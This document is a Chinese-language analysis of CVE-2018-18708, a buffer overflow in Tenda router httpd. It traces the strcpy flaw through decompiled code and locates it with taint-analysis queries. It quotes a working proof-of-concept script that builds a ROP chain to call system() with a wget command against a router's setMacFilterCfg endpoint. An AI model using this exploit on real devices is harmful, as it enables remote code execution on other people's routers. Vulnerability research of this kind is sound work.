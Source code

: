 ```yaml
---
slug: tiangongdocs001
title: "CVE-2018-18708: 腾达路由器缓冲区溢出漏洞"
date: 2023-10-16
--- 
```


## 0x00 漏洞介绍

CVE-2018-18708，多款Tenda产品中的httpd存在缓冲区溢出漏洞。攻击者可利用该漏洞造成拒绝服务（覆盖函数的返回地址）。

附件：

[httpd 991088](/attachments/docs-cve-2018-18708/c847d716-1fd0-46c8-926d-9bbf2f014018.false)

## 0x01 固件逻辑分析

首先httpd会进行端口和 ip绑定，然后会调用`initWeb`函数对路由进行绑定。

```c
if ( initWeb_2E9EC(v9) >= 0 )
{
  ....
  ....
  ....
}
else
{
  puts("main -> initWebs failed");
  return -1;
}
```

在`initWeb`中首先进行了`handler`的绑定，这里绑定了`/goform`，`/cgi-bin`等路由，后面的`websFormHandler`即对应的处理函数

```c
if ( sub_29510(port, retries) >= 0 )
  {
    sub_179A8(&unk_DC618, 0, 0, R7WebsSecurityHandler, 1);
    sub_179A8("/goform", 0, 0, websFormHandler, 0);
    sub_179A8("/cgi-bin", 0, 0, webs_Tenda_CGI_BIN_Handler, 0);
    sub_179A8(&unk_DC618, 0, 0, websDefaultHandler, 2);
    init_register();
    sub_179A8("/", 0, 0, sub_2ECD0, 0);
    return 0;
  }
  else
  {
    printf("%s %d: websOpenServer failed\n", "initWebs", 499);
    return -1;
  }
```

在后续的`init_register` 对进入handler后分发进行处理的函数进行了注册

```c
int sub_42378()
{
  int v0; // r0

  sub_10120("TendaGetLongString", aspTendaGetLongString);
  sub_10120("aspTendaGetStatus", aspTendaGetStatus);
  regist_handlers_form("updateUrlLog", updateUrlLog);
  regist_handlers_form("SysStatusHandle", fromSysStatusHandle);
  regist_handlers_form("GetWanStatus", formGetWanStatus);
  regist_handlers_form("GetSysInfo", formGetSysInfo);
  regist_handlers_form("GetWanStatistic", formGetWanStatistic);
  regist_handlers_form("GetAllWanInfo", formGetAllWanInfo);
  regist_handlers_form("GetWanNum", formGetWanNum);
  sub_10120("aspGetWanNum", aspGetWanNum);
  regist_handlers_form("getPortStatus", formGetPortStatus);
  regist_handlers_form("GetSystemStatus", formGetSystemStatus);
  regist_handlers_form("GetRouterStatus", formGetRouterStatus);
  regist_handlers_form("setNotUpgrade", formsetNotUpgrade);
  sub_10120("aspGetCharset", aspGetCharset);
  regist_handlers_form("WizardHandle", fromWizardHandle);
  regist_handlers_form("fast_setting_get", form_fast_setting_get);
  regist_handlers_form("fast_setting_pppoe_get", form_fast_setting_pppoe_get);
  regist_handlers_form("fast_setting_wifi_set", form_fast_setting_wifi_set);
  regist_handlers_form("fast_setting_pppoe_set", form_fast_setting_pppoe_set);
  regist_handlers_form("getWanConnectStatus", formGetWanConnectStatus);
  regist_handlers_form("getProduct", GetProduct);
  regist_handlers_form("fast_setting_internet_set", form_fast_setting_internet_set);
  regist_handlers_form("usb_get", form_usb_get);
  v0 = regist_handlers_form("SysToolpassword", SysToolpassword);
```

即`POST goform/setMacFilterCfg` 会进下面注册的`formSetMacFilterCfg`函数中进行处理

```javascript
 regist_handlers_form("setMacFilterCfg", formSetMacFilterCfg);
```

## 0x02 漏洞分析

根据公开的漏洞信息，漏洞触发是在`sub_C24C0`函数中的strcpy处，看的出来是将a1直接没有判断长度拷贝到了a2+32中。我们继续向上跟踪：

1. 确定该漏洞的数据输入点来源于哪里。

2. 确认a1的长度是要大于a2+32的。

 ![](/attachments/docs-cve-2018-18708/8a020bf7-2a72-4218-a0c0-4401550a2e95.png)

我们向上进行交叉引用跟踪，可以看到这里v12也就是上个函数的a2的大小是固定的，大小为176。

 ![](/attachments/docs-cve-2018-18708/2d3cd699-e307-458d-8173-3493e84dd4ff.png " =895x")

再向上跟踪，我们发现一开始的strcpy的第二个参数的字符串来自于下面这个函数的返回值

 ![](/attachments/docs-cve-2018-18708/1e054597-ddc5-491e-90a1-7d064bc93b19.png)

结合公开poc，我们从poc中寻找一下是不是包含了这个字段

```python
import requests
from pwn import *
 
cmd="wget 192.168.11.35"
libc_base = 0xff58c000
system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298
 
payload = 'a'*176
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd
 
url = "http://192.168.2.3/goform/setMacFilterCfg"
cookie = {"Cookie":"password=12345"}
data = {"macFilterType": "black", "deviceList": "\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

发现`deviceList是post请求中的data里面json数据的一个字段，那么顺理成章sub_2BABC`的作用其实就是从json中读取数据，将结果保存在返回值中。

## 0x03 漏洞扫描

我们这里查询思路是找到source点`FUN_0002ba8c` 函数的返回追和sink点`strcpy` 第一个参数两个变量之间所有的路径，因为strcpy第2个参数如果来自于`FUN_0002ba8c`的返回值的话很可能会造成栈溢出

### 3.1 破壳平台

#### 3.11 查询入门

首先浅浅进行一个cypher语言入门 [《图数据库查询语言Cypher》](https://zhuanlan.zhihu.com/p/398323729)

简单来说查询的模式如下

```javascript
MATCH (n:节点类型{属性:"某种属性"})-[关系]-(m) RETURN *
```

用我们要查询的source点做一个例子，该语句就是来查询函数名为`FUN_0002ba8c`的函数节点

```javascript
MATCH (n:function{name:"FUN_0002ba8c"}) RETURN n
```

#### 3.22 查询过程

通过用户文档可知，我们可以通过平台提供的`call VQL.taintPropagation` 来进行漏洞查询

首先找到source点的id，我们寻找的条件如下：

1. 属性为identifier，也就是变量的节点
2. 调用该变量的函数为`FUN_0002ba8c`（callee = "FUN_0002ba8c" )
3. 该变量是调用函数的返回值(index = -1)

```javascript
MATCH (n:identifier) WHERE (n.callee = "FUN_0002ba8c" AND n.index=-1 ) WITH collect(id(n)) AS sourceSet 
RETURN sourceSet
```

同理我们可以找到`sink`点，这里我们关注的是strcpy的第2个参数，所以index = 1，这里index的下标是从0开始的

```javascript
MATCH (n:identifier) WHERE (n.callee = "strcpy" AND n.index=1 ) WITH collect(id(n)) AS sinkSet
RETURN sinkSet
```

最后我们把这三个命令用`` WITH` ``连接一下

```javascript
MATCH (n:identifier) WHERE (n.callee = "FUN_0002ba8c" AND n.index=-1 ) WITH collect(id(n)) AS sourceSet
MATCH (n:identifier) WHERE (n.callee = "strcpy" AND n.index=1 ) WITH sourceSet,collect(id(n)) AS sinkSet
CALL VQL.taintPropagation(sourceSet,sinkSet, [], [])
YIELD taintPropagationPath RETURN taintPropagationPath
```

以上就大功告成了

#### 3.23结果验证

通过执行上面的查询语句，可以从平台的语句分析处查看结果，查询到了漏洞函数的执行流。数据流从7处流向1处。

 ![](/attachments/docs-cve-2018-18708/3a0165d6-0a15-4beb-a9a9-c97ea2ca5bb8.png)
